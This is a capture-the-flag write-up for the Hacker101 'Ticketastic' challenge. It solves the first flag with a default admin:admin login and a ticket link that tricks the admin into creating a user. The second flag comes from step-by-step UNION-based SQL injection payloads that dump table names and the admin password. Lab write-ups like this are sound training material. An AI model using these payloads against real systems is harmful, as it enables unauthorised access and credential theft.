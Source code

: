 # Ticketastic

## Description
This write up will show how to solve the CTF for "Ticketastic"

**Difficulty:** Moderate

Hints are not being provided for multiple reasons:</br>
1. It is better to figure it out yourself and I don't want to give spoilers, especially if you don't need one
2. It is only possible to get a hint every once in a while, i.e. it is not possible to get all the hints one after another. This will take too much time to "wait" for all the hints

## Solution 1st flag
First check the demo environment. With a lucky guess of `admin:admin` it is possible to login to the admin panel.</br>
Create a new user and see which endpoints are being touched upon.</br>

Stop the demo environment and go to the live environment.</br>
Create a new ticket with the same path:
```
Title: give any name
Body: <a href="http://localhost/newUser?username=testuser&password=password&password2=password">New User</a>
```

This create a link.

Now go to the login page and login with the newly created user.</br>
This will show the flag.

## Solution 2nd flag
The tickets have an id, for example: `ticket?id=1?`</br>
This means there is most probably a database involved.<br>

Try to enumerate the database in the following steps:</br>
`ticket?id=1'` --> doesn't work</br>
`ticket?id=1 and 1=1` --> does work</br>
`ticket?id=1 ORDER BY 1` --> find the number of tables, by increasing the last value, it will show that 3 is the maximum number</br>
`ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--` --> This will show the tables: tickets and users</br>
`ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME=’users’--` --> this will show the columns for the users table: id, username and password</br>
`https://6fd960e3a640236002ac83d0aa6ba585.ctf.hacker101.com/ticket?id=1.1%20UNION%20SELECT%201,password,3%20FROM%20users%20WHERE%20username=%27admin%27--` --> query for the username admin to get the password (it won't give the password, but show the flag)</br>
